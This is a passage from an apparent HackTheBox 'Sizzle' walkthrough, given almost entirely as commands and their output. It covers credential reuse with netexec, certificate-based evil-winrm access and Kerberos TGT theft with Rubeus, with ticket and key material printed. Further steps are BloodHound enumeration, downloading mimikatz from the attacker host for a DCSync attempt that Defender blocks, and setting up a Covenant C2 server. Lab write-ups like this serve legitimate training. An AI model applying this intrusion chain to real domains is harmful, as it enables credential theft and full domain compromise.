1g 0:00:00:09 DONE (2025-01-13 09:01) 0.1085g/s 1212Kp/s 1212Kc/s 1212KC/s Forever3!..FokinovaS1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`netexec smb 10.10.10.103 -u 'mrlky' -p 'Football#7'`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\mrlky:Football#7🔑
```

`netexec smb 10.10.10.103 -u 'mrlky' -p 'Football#7' --shares`:
```
SMB         10.10.10.103    445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\mrlky:Football#7 
SMB         10.10.10.103    445    SIZZLE           [*] Enumerated shares
SMB         10.10.10.103    445    SIZZLE           Share           Permissions     Remark
SMB         10.10.10.103    445    SIZZLE           -----           -----------     ------
SMB         10.10.10.103    445    SIZZLE           ADMIN$                          Remote Admin
SMB         10.10.10.103    445    SIZZLE           C$                              Default share
SMB         10.10.10.103    445    SIZZLE           CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.10.103    445    SIZZLE           Department Shares READ            
SMB         10.10.10.103    445    SIZZLE           IPC$            READ            Remote IPC
SMB         10.10.10.103    445    SIZZLE           NETLOGON        READ            Logon server share 
SMB         10.10.10.103    445    SIZZLE           Operations                      
SMB         10.10.10.103    445    SIZZLE           SYSVOL          READ            Logon server share
```

`openssl genrsa -des3 -out ./mrlky.key 2048 # create private key`:
```
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

`openssl req -new -key ./mrlky.key -out ./mrlky.csr # create certificate signing request (csr)`:
```
Enter pass phrase for ./mrlky.key:
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```

`ls -l ./mrlky*`:
```
-rw-rw-r-- 1 nabla nabla  956 Jan 13 09:30 ./mrlky.csr
-rw------- 1 nabla nabla 1862 Jan 13 09:30 ./mrlky.key
```



`cat ./mrlky.csr`:
```
-----BEGIN CERTIFICATE REQUEST-----
MIICijCCAXICAQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBAJXcsThban5/dH/94o62pmMVBM0j2vOi36eQsCJ2
HHc0PmJwqH8RennEj7P90chbbsV/i6BHYQDHDsrgOFZYdiwtC+RdNyrxPjhrxrry
pxT/iydK35OFGSl8OujjLaY+gsgnHnhvjja4g5rT+CJTCg+pSuzkg6f+UsMOX3Y2
8Ge6uvxkzwoKGqdITfZj5FRGLVQLwjNjdhy293oM6sKK+uxn/bZ0NCk8DbY1A1ja
z0Bpu9fjjRr8jUuaV5/I0An84l4xXkJTMb+oZ4O1nhZZZiiPKxAOrGznAOuWoTtV
l7s5tGN/w1vxpOuYydd+GMbaHirum3gC/mlVU2wyxzzJhi8CAwEAAaAAMA0GCSqG
SIb3DQEBCwUAA4IBAQCAL0epLlcHd/HNYK60abVg23zrhchjjZUS0xtjp5RnCDG4
VD7rAC2N2bWeFMclxpP/gtL3x99v1Y179SiAHf+AHVSRItE7FDPm+ZZGtRIs/c9a
YLR7peUnq1QUdhSwKVnHiKQE+C9PR05OTX6JTbLBXtb24o9YOvtgdw22hrTpHzex
USFtP+Y5F5yYigSO9zo2H7F5hwyH0Z+m1raKYgbmtncKM+VMQ3470q1WcL3H28Rk
TEJ77jtzET1R7wCT6abyayw1qKKQvXiVUPKZA8wmztJrSlDiVKBZOyHDguOlR4qx
vNjhnGiUC+k9IBNz2iTm4ijDFm95xVk+T100bhml
-----END CERTIFICATE REQUEST-----
```







`mv ./Downloads/certnew.cer ./mrlky_base64_cert.pem`

`file ./mrlky_base64_cert.pem`:
```
./mrlky_base64_cert.pem: PEM certificate
```

`evil-winrm -i 10.10.10.103 -u 'mrlky' --ssl -c ./mrlky_base64_cert.pem -k ./mrlky.key`:
```                          
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\mrlky.HTB\Documents>
```
🐚


`whoami`:
```
htb\mrlky
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name SID
========= ==============================================
htb\mrlky S-1-5-21-2379389067-1826974543-3574127760-1603


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

`dir C:\\Users\mrlky\Desktop`:
```
    Directory: C:\Users\mrlky\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/12/2025  12:19 PM             34 user.txt
```

`type C:\\Users\mrlky\Desktop\user.txt`:
```
ca5ee***************************🚩
```


`mkdir ./smbshare`

`impacket-smbserver -user 'smbuser' -password 'smbpass' -smb2support 'smbshare' ./smbshare`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```


`net.exe use K: \\10.10.14.32\smbshare /user:smbuser smbpass`:
```
The command completed successfully.
```

`C:\Windows\System32\spool\drivers\color\Rubeus.exe asktgt /user:mrlky /domain:HTB.LOCAL /password:Football#7 /outfile:K:\mrlky_tgt.kirbi`:
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: BCEEF4F6FE9C026D1D8DEC8DCE48ADEF
[*] Building AS-REQ (w/ preauth) for: 'HTB.LOCAL\mrlky'
[*] Using domain controller: fe80::10fc:daac:252b:43bc%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIEujCCBLagAwIBBaEDAgEWooID2zCCA9dhggPTMIIDz6ADAgEFoQsbCUhUQi5MT0NBTKIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJSFRCLkxPQ0FMo4IDmTCCA5WgAwIBEqEDAgECooIDhwSCA4PRvzw2Px0F2yUo
      OsAoX8qVV0Aku0VbW8iHeOG7s+rO0ioOX9JzZcoyvi4EFWzFofmYMd9U/Mu7MHk69gSKyzn2aiPC0exW
      p+GIT9naFclOqvLfy69iphghgIJ915OUntN3GwfYMLpsDPbLhBZH5MGC/H6gS5lfDiPLhrU7/zLLMTgm
      MwismxzuK76gW+lExWuG19RruonAQJw24+g/ShFsNWb3srJg+AZJPYGIDC50nzeuKkSi1VY79Jvv2kq0
      ySy37+paQu1wWeK8u30Zbj4efhIGjroD844+XZMk67vNmI0Q5+YYmxqKwFvsu2wcnSZu+vCkNf6EzQTm
      mH8w96vXf+mgrEKpr1hE8rVXSMcWeiuXy9DP3PriFOwsBT4lu80mVJKia87PrGMso0IuJ28I0VsHryDu
      s2O1uZHMW1qFVjzUIo++qgA873eU8mrfIoWcAKWilaXKjdNe7hIoWa21aaODnlg+0Okf2fjYLXHqCB71
      YEn1DVUWBRE6WyPhGSvleyOaZ61gKQQPXyY6us6p7RuF8HYIfFeGrDMMp2OEkTL/k23VQz6Juv5ZxRvo
      /wY9H5dULOQbItLajPydfh9grsmu34lxAc8svIRb5VZ5jZ9s3VMEn1FpPxwXkUyvwvh0a1O7ZOohjhTv
      gVSVKtOzGg3leUjutypZG53swKkJSIktVfmxy2dRq6ySKRiS9nmWlpUDdfMe+2JwORkkEWxunzbr3dSo
      Upd0N2dna8wciS3vm687+/XcLCG0uSZvFrRAFWG5gw6/gpH9+H6ptNMci7511ubnIP1nn8VPvuSZDRT5
      uEtLHm4D+IkROf3oHXRHy2d2Cd0XRauBEH4HusjbmZCNFeQwude7yliZ848lplNW5WgiT/9nSPi6+clr
      me9BRCwzkXM1oN7Gn5hzfx/w9Ca/GI82aPM3kA/JTimzwAOwNpYIqnQvIUV+ZXcG+TcyL9lUpL80DtIs
      twZM+1QZBPFjL0EwoIJg3gd62UJFKRIqKnIH4WcENA2owBKqEYreftcxfuASr/BVIvvzZxW3EzUK4P43
      CMzb9uYsV+GkvWSmQZaSkzEa/GOC+alnqr6faBtutBca67yEN58LhsAaznLOBtkqk5jijL95ZJ7g7eKz
      AzYHnNbZ3UgTxDtxMxAmyUvgnEWuR+DEcu9FhORmJuijWtr/Dn+JpqX40sRSLq4Cx6OByjCBx6ADAgEA
      ooG/BIG8fYG5MIG2oIGzMIGwMIGtoBswGaADAgEXoRIEEIiizEuSGa4CvFye1BGn5nihCxsJSFRCLkxP
      Q0FMohIwEKADAgEBoQkwBxsFbXJsa3mjBwMFAEDhAAClERgPMjAyNTAxMTMxNDQ0MzlaphEYDzIwMjUw
      MTE0MDA0NDM5WqcRGA8yMDI1MDEyMDE0NDQzOVqoCxsJSFRCLkxPQ0FMqR4wHKADAgECoRUwExsGa3Ji
      dGd0GwlIVEIuTE9DQUw=

[*] Ticket written to K:\mrlky_tgt.kirbi🎟️


  ServiceName              :  krbtgt/HTB.LOCAL
  ServiceRealm             :  HTB.LOCAL
  UserName                 :  mrlky
  UserRealm                :  HTB.LOCAL
  StartTime                :  1/13/2025 9:44:39 AM
  EndTime                  :  1/13/2025 7:44:39 PM
  RenewTill                :  1/20/2025 9:44:39 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  iKLMS5IZrgK8XJ7UEafmeA==
  ASREP (key)              :  BCEEF4F6FE9C026D1D8DEC8DCE48ADEF
```


`file ./smbshare/mrlky_tgt.kirbi`:
```
./smbshare/mrlky_tgt.kirbi: data
```

`klist`:
```
klist: No credentials cache found (filename: /tmp/krb5cc_1000)
```

`impacket-ticketConverter ./smbshare/mrlky_tgt.kirbi ./mrlky_tgt.ccache`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

`KRB5CCNAME=/home/nabla/mrlky_tgt.ccache bloodhound-python -d 'HTB.LOCAL' -ns 10.10.10.103 -dc 'sizzle.HTB.LOCAL' -u 'mrlky' -k -no-pass -c All`:
```
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: sizzle.HTB.LOCAL
```
❌

`locate -i 'sharphound.exe'`:
```
/home/nabla/tools/BloodHound-Legacy/Collectors/SharpHound.exe
/home/nabla/tools/BloodHound-Legacy/Collectors/DebugBuilds/SharpHound.exe
/usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe
/usr/lib/bloodhound/resources/app/Collectors/DebugBuilds/SharpHound.exe
/usr/share/metasploit-framework/data/post/SharpHound.exe
```

`cp /home/nabla/tools/BloodHound-Legacy/Collectors/SharpHound.exe ./`


`Invoke-WebRequest -Uri http://10.10.14.32/SharpHound.exe -OutFile C:\Windows\System32\spool\drivers\color\SharpHound.exe`

`C:\Windows\System32\spool\drivers\color\SharpHound.exe -c All --outputdirectory "C:\Windows\System32\spool\drivers\color\"`:
```
2025-01-13T10:26:10.3957456-05:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-01-13T10:26:10.5207467-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-01-13T10:26:10.5363785-05:00|INFORMATION|Initializing SharpHound at 10:26 AM on 1/13/2025
2025-01-13T10:26:10.7551298-05:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for HTB.LOCAL : sizzle.HTB.LOCAL
2025-01-13T10:26:10.7863723-05:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-01-13T10:26:10.9113751-05:00|INFORMATION|Beginning LDAP search for HTB.LOCAL
2025-01-13T10:26:10.9894965-05:00|INFORMATION|Producer has finished, closing LDAP channel
2025-01-13T10:26:10.9894965-05:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-01-13T10:26:41.6146339-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 34 MB RAM
2025-01-13T10:26:53.9583477-05:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-01-13T10:26:53.9895944-05:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-01-13T10:26:54.2395966-05:00|INFORMATION|Status: 94 objects finished (+94 2.186047)/s -- Using 41 MB RAM
2025-01-13T10:26:54.2395966-05:00|INFORMATION|Enumeration finished in 00:00:43.3327900
2025-01-13T10:26:54.3020959-05:00|INFORMATION|Saving cache with stats: 54 ID to type mappings.
 53 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-01-13T10:26:54.3333502-05:00|INFORMATION|SharpHound Enumeration Completed at 10:26 AM on 1/13/2025! Happy Graphing!
```

`dir C:\Windows\System32\spool\drivers\color`:
```
    Directory: C:\Windows\System32\spool\drivers\color


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/13/2025  10:26 AM          11551 20250113102653_BloodHound.zip
-a----        1/13/2025   8:52 AM           1216 amanda_tgt.kirbi
-a----        7/16/2016   9:18 AM           1058 D50.camp
-a----        7/16/2016   9:18 AM           1079 D65.camp
-a----        7/16/2016   9:18 AM            797 Graphics.gmmp
-a----        7/16/2016   9:18 AM            838 MediaSim.gmmp
-a----        1/13/2025  10:26 AM           7921 MjA1NTZjODAtYTQzYS00OWY1LWFiOTAtMjFmYTQ1MmY1YTU4.bin
-a----        1/13/2025   8:56 AM           1853 mrlky_krb5tgs_hash.txt
-a----        7/16/2016   9:18 AM            786 Photo.gmmp
-a----        7/16/2016   9:18 AM            822 Proofing.gmmp
-a----        7/16/2016   9:18 AM         218103 RSWOP.icm
-a----        1/13/2025   8:42 AM         446976 Rubeus.exe
-a----        1/13/2025  10:24 AM        1046528 SharpHound.exe
-a----        7/16/2016   9:18 AM           3144 sRGB Color Space Profile.icm
-a----        7/16/2016   9:18 AM          17155 wscRGB.cdmp
-a----        7/16/2016   9:18 AM           1578 wsRGB.cdmp
```

`copy C:\Windows\System32\spool\drivers\color\20250113102653_BloodHound.zip K://`


`file ./smbshare/20250113102653_BloodHound.zip`:
```
./smbshare/20250113102653_BloodHound.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
```

`mv ./smbshare/20250113102653_BloodHound.zip ./bh.zip`

`sudo neo4j console`

`bloodhound`

`Database Info` > `Refresh Database Stats`
`Database Info` > `Clear Sessions`
`Database Info` > `Clear Database`

`Upload Data: ~/bh.zip` > `Clear Finished`

`Search for a node: mrlky` > `MRLKY@HTB.LOCAL` > `<right-click>` > `Mark User as Owned`

`Graph`:
```
MRLKY@HTB.LOCAL ---(DCSync)--- HTB.LOCAL📌
```

`DCSync`:
```
INFO:

The user MRLKY@HTB.LOCAL has the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege on the domain HTB.LOCAL.

These two privileges allow a principal to perform a DCSync attack.

---

WINDOWS ABUSE:

You may perform a dcsync attack to get the password hash of an arbitrary principal using mimikatz:
~~~
lsadump::dcsync /domain:testlab.local /user:Administrator
~~~

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on this see the blog post by harmj0y in the references tab.
```

`locate -i 'mimikatz.exe'`:
```
/home/nabla/tools/mimikatz/Win32/mimikatz.exe
/home/nabla/tools/mimikatz/x64/mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

`cp /home/nabla/tools/mimikatz/x64/mimikatz.exe ./`


`Invoke-WebRequest -Uri http://10.10.14.32/mimikatz.exe -OutFile C:\Windows\System32\spool\drivers\color\mimikatz.exe`

`C:\Windows\System32\spool\drivers\color\mimikatz.exe lsadump::dcsync /domain:HTB.LOCAL /user:Administrator`:
```
Program 'mimikatz.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ C:\Windows\System32\spool\drivers\color\mimikatz.exe lsadump::dcsync  ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ C:\Windows\System32\spool\drivers\color\mimikatz.exe lsadump::dcsync  ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```
❌

`reg.exe query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP" /s`:
```
[...]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5📌
    CBS    REG_DWORD    0x1
    Install    REG_DWORD    0x1
    InstallPath    REG_SZ    C:\Windows\Microsoft.NET\Framework64\v3.5\
    SP    REG_DWORD    0x1
    Version    REG_SZ    3.5.30729.4926

[...]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4

[...]

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full📌
    CBS    REG_DWORD    0x1
    Install    REG_DWORD    0x1
    InstallPath    REG_SZ    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\
    Release    REG_DWORD    0x60632
    Servicing    REG_DWORD    0x0
    TargetVersion    REG_SZ    4.0.0
    Version    REG_SZ    4.6.01586

[...]
```


`docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v /home/nabla/tools/Covenant/Covenant/Data:/app/Data covenant --username nabla`:
```
Password: ****
Found default JwtKey, replacing with auto-generated key...
warn: Microsoft.AspNetCore.DataProtection.Repositories.FileSystemXmlRepository[60]
      Storing keys in a directory '/root/.aspnet/DataProtection-Keys' that may not be persisted outside of the container. Protected data will be unavailable when container is destroyed.
warn: Microsoft.EntityFrameworkCore.Model.Validation[10400]
      Sensitive data logging is enabled. Log entries and exception messages may include sensitive application data, this mode should only be enabled during development.
Covenant has started! Navigate to https://127.0.0.1:7443 in a browser
Creating cert...
warn: Microsoft.AspNetCore.DataProtection.KeyManagement.XmlKeyManager[35]
      No XML encryptor configured. Key {042db0ee-0f99-4037-96f7-4530fa54dac8} may be persisted to storage in unencrypted form.
```



